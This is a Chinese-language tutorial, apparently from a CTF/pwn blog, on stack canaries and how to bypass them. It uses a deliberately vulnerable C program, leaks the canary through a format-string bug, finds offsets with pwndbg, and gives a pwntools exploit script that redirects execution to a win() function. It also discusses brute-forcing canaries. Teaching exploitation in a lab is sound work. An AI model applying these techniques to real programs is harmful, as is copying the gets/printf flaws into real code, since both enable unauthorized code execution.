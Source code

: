 ```yaml
---
title: 'Canaries'
date: '2023-08-21'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '防御缓冲区溢出'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure toHeading={3} />
</div>

Canary 的意思是金丝雀，源于英国矿井工人用来探查井下气体是否有毒的金丝雀笼子。工人们每次下井都会带上一只金丝雀。如果井下的气体有毒，金丝雀由于对毒性敏感就会停止鸣叫甚至死亡，从而使工人们得到预警。

Canary 的设计非常简单——在函数的开头，一个随机值被放置在栈上，作为检测用的保护值。在程序执行 `ret` 之前，程序会检查该值是否被修改过：如果没有被改变，则说明没有发生缓冲区溢出；反之，说明发生了栈溢出，程序会中止。

这种通过检查保护值的手段，可以缓解栈溢出的攻击行为。因为保护值的位置在保存的基地址和返回地址之间，是栈溢出的常见目标位置。攻击者无法跳过保护值直接修改返回地址等关键数据。这样简单有效的检测机制，可以大大增强程序的安全性。

<Note>
  在 Linux 上，Canary 设计为以 `\x00` 结尾。本意是为了保证 Canary 可以截断字符串。如果你在用输出函数的时候处理错了字符串，导致打印的字符串超出了 Canary 的位置，这个 `\x00` 可以终止字符串的输出，防止越界访问 Canary 的值；同时空字节 `\x00` 也会中断字符串打印，不会错误打印后面栈上的内容。但是这也使它很容易被识别出来：攻击者可以通过输出一个可能的 Canary 值，并检验末尾是否为 `\x00` 来判断真正的Canary 是多少。
</Note>

## 0x01 绕过 Canary

有两种常用的方法可以绕过 Canary。

### 1x01 泄漏 Canary

获取 Canary 的值的方法因程序而异，没有固定的万能方式。但主要的目的是获取它的值。最简单的方法是，如果程序存在格式化字符串漏洞的话，可以利用这个漏洞来泄漏栈上的内容。因为 Canary 和其它局部变量一样，位于栈上。

```c:source.c showLineNumbers
#include <stdio.h>

void vuln() {
  char buffer[64];

  puts("Leak me");
  gets(buffer);

  printf(buffer);
  puts("");

  puts("Overflow me");
  gets(buffer);
}

int main() {
  vuln();
}

void win() {
  puts("You won!");
}
```

#### 2x01 32-bit

<Download name="canary-32.zip" href="/static/assets/canary-32.zip" type="Binary" />

首先，让我们检查一下是否有 Canary。

```
$ pwn checksec vuln-32
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

现在我们需要计算 Canary 所在的偏移量，为此我们将使用 pwndbg。

```
$ pwndbg vuln-32

$ b *0x080491d7
$ r
Leak me
%p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x00007025
0xffffd700:	0xf7ffcfd8	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0x437aa500
```

最后一个输出的值是 Canary。我们可以从以下几点来判断：

1. 它距离缓冲区开始的地址约 64 字节，这很接近缓冲区末尾的位置。
2. 它的末尾是 `\x00` ，和以 `ff` 和 `f7` 开头的 libc 库地址不同，看起来非常随机。

从缓冲区开始，我们大约输出了 24 个地址，然后可以找到 Canary 的值。所以我们可以在它前后各输出一个地址，来确定 Canary 的位置。

```
$ ./vuln-32
Leak me
%23$p %24$p %25$p
0x4c1e00 (nil) 0xf7e43e34
```

似乎是 `%23$p`。

<Note>
  Canary 对于每个新进程都是随机的，因此不会相同。
</Note>

现在让我们用 pwntools 自动抓取 Canary：

```python:canary.py showLineNumbers
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')
```

```
$ python exp.py
[+] Starting local process './vuln-32': pid 10042
[*] Leak me
[+] Canary: 0x143e3e00
```

现在剩下的就是计算出 Canary 之前的偏移量，然后计算出 Canary 之后到返回地址的偏移量。

```
$ pwndbg vuln-32
$ b *0x080491d7
$ r
Leak me
%23$p

Breakpoint 1, 0x080491d7 in vuln ()
[...]
$ x/24wx $esp
0xffffd6e0:	0xffffd6fc	0x00000001	0xf7ffda20	0x0804919e
0xffffd6f0:	0x00000000	0xffffd9ab	0x00000002	0x24333225
0xffffd700:	0xf7ff0070	0x00000028	0x00000000	0xffffdfcd
0xffffd710:	0xf7fc6570	0xf7fc6000	0x00000000	0x00000000
0xffffd720:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd730:	0xffffffff	0xf7c0c850	0xf7fc0380	0xf5dafb00
```

我们看到 Canary 位于 `0xffffd73c`。稍后，假设返回地址位于 `0xffffd74c`。让我们在下一个 `gets()` 之后中断并检查我们用什么值覆盖它。

```
$ b *0x0804920f
$ c
Continuing.
0x915d8a00
Overflow me
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Breakpoint 2, 0x0804920f in vuln ()
[...]
$ x/20wx 0xffffd73c
0xffffd73c:	0x61616171	0x61616172	0x61616173	0x61616174
0xffffd74c:	0x61616175	0x61616176	0x61616177	0x61616178
```

现在，我们可以检查 Canary 和 EIP 偏移量：

```
$ cyclic -l 0x61616171
Finding cyclic pattern of 4 bytes: b'qaaa' (hex: 0x71616161)
Found at offset 64
$ cyclic -l 0x61616175
Finding cyclic pattern of 4 bytes: b'uaaa' (hex: 0x75616161)
Found at offset 80
```

返回地址是 Canary 开始后的 16 个字节，因此是 Canary 后的 12 个字节。

```python:exp.py showLineNumbers
from pwn import *

context.log_level = 'debug'

p = process('./vuln-32')

log.info(p.clean())
p.sendline('%23$p')

canary = int(p.recvline(), 16)
log.success(f'Canary: {hex(canary)}')

payload = b'A' * 64
payload += p32(canary)  # 用 Canary 值覆盖 Canary 以不触发检测
payload += b'A' * 12    # Padding 到返回地址
payload += p32(0x08049245)

p.sendline(payload)

p.interactive()
```

#### 2x02 64-bit

方法同上，只是变成了 64-bit。

<Note>
只要注意：在 64-bit 中，字符串首先进入相关寄存器，每个地址可以容纳 8 字节，因此偏移量可能不同。
</Note>

<Download name="canary-64.zip" href="/static/assets/canary-64.zip" type="Binary" />

### 1x02 暴力破解 Canary

这在 32-bit 上是可能的，有时也是不可避免的。但在 64-bit 上这种方法是不可行的。因为 32-bit 的 Canary 值通常为 4 字节，爆破遍历空间较小，可行性高；但 64-bit 扩展到 8 字节，遍历空间极大，爆破难度大幅提高。

总体思路是通过大量运行目标进程，每次使用随机 Canary 值来碰撞正确的 Canary 值。但需要明确的指示来判断爆破是否成功，例如出现已知明文 `flag{`。这需要大量时间。

